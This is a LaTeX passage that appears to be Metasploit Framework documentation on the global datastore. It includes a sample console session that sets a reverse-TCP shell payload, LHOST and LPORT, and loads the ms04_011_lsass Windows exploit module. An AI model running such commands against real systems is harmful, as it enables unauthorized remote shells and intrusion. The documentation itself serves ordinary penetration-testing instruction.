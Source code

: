 \documentclass{report}
\begin{document}
\par
This split datastore system allows you save time during exploit development
and penetration testing. Common options between exploits can be defined in the
Global datastore once and automatically used in any exploit you load thereafter.  

\par
The example below shows how the \texttt{LPORT}, \texttt{LHOST}, and
\texttt{PAYLOAD} global datastore can be used to save time when exploiting a
set of Windows-based targets. If this datastore was set and a Linux exploit
was being used, the module datastore (via \texttt{set} and \texttt{unset})
could be used to override these defaults.  

{\footnotesize
\begin{verbatim}
f > setg LHOST 192.168.0.10
LHOST => 192.168.0.10
msf > setg LPORT 4445
LPORT => 4445
msf > setg PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > show options

Module options:

...

Payload options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.0.10     yes       The local address
   LPORT     4445             yes       The local port

...

\end{verbatim}}

    \section{DataStore Variables}
    \label{ENV-VAR}
\par
The datastore can be used to configure many aspects of the Framework, ranging
from user interface settings to specific timeout options in the network socket
API. This section describes the most commonly used environment variables.  

\par
For a complete listing of all environment variables, please see the file
Environment.txt in the ``documentation'' subdirectory of the Framework. 
\end{document}
